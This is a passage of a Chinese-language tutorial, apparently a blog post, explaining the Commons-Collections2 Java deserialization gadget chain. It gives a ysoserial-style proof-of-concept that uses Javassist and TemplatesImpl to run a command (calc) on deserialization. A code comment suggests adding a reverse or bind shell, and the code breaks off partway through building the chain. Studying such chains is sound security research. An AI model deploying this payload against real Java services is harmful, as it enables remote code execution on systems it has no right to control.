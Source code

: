 ```java
        Object instance = clazz.newInstance();
        // 调用sayHello方法，会输出"Hello from Javassist!"
        clazz.getMethod("sayHello").invoke(instance);
    }
}

```

## 新版本POC - 基于ysoserial

通过这段代码就可以构造一个新的POC了，这个POC使用了TemplatesImpl取代原来的调用链，这里的ClassPool是自己创建的，是一种类似于ysoserial的写法，但是ysoserial中使用了很多代码模板，这里不好把代码迁移过来，会导致代码很长，所以这里直接使用更直接了当的写法。

```java
public class CommonsCollections2 {
    static String serialFileName = "commons-collections2.ser";

    public static void main(String[] args) throws Exception {
        cc2byYsoSerial();
        verify();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
    public static void cc2byYsoSerial() throws Exception {

        String executeCode = "Runtime.getRuntime().exec(\"calc\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        // mock method name until armed
        final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        // create queue with numbers and basic comparator
```